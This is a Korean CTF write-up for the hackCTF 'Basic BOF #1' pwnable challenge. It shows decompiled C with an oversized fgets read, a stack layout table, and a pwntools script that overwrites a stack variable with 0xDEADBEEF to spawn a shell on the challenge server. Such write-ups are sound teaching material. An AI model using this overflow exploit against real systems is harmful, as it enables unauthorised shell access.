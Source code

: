 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #1"
date:   2020-02-09
categories: [hackCTF]
tags: [hackCTF] [pwnable]
permalink: '/hackCTF'
---
```

hackCTF pwnable 1번째 문제

![favicon](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/favicons.png?raw=true)

## ida
```c
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    char s; // [esp+4h] [ebp-34h]
    int v5; // [esp+2Ch] [ebp-Ch]

    v5 = 67305985;
    fgets(&s, 45, stdin); // s에 45바이트 입력 받음
    printf("\n[buf]: %s\n", &s);
    printf("[check] %p\n", v5);
    if ( v5 != 67305985 && v5 != -559038737 ) // v5가 특정 두 값이 아니면
      puts("\nYou are on the right way!"); // "You are on the right way!" 출력
    if ( v5 == -559038737 ) // v5가 특정 값이면
    {
      puts("Yeah dude! You win!\nOpening your shell...");
      system("/bin/dash"); // 쉘을 띄울 수 있다!
      puts("Shell closed! Bye.");
    }
    return 0;
```
<br>

메모리 구조를 정리해보자.<br><br>

***

| sfp |    ebp   |
|:---:|:--------:|
| ... |          |
|  v5 (67305985) / | esp+0x2C |
| ... |          |
| s   | esp+0x4  |
| ... |          |
| esp | esp+0    |

***

<br>
취약점 : fgets(&s, 45, stdin)<br>
목표 : v5<br><br>
∴ payload를 v5까지 덮을 수 있도록 만들자.


## exploit.py
```python
  #!/usr/bin/python
  from pwn import *

  p = remote('ctf.j0n9hyun.xyz', 3000)

  payload = "A"*(0x2c-0x4)+p32(0xDEADBEEF)

  p.sendline(payload)

  p.interactive()
```

-559038737는 16진수로 변환하면 0xDEADBEEF가 된다. 40byte를 아무 값으로 채운다음 p32 방식으로 0xDEADBEEF 값을 패킹해 payload 값을 만든다.

## 결과  
![0102](https://drive.google.com/uc?id=1DCHfkrbOkWFKlbtl9krspfNhFJzKnpQU)


p32 : little endian 방식으로 패킹해줌 (u32 : 언패킹)
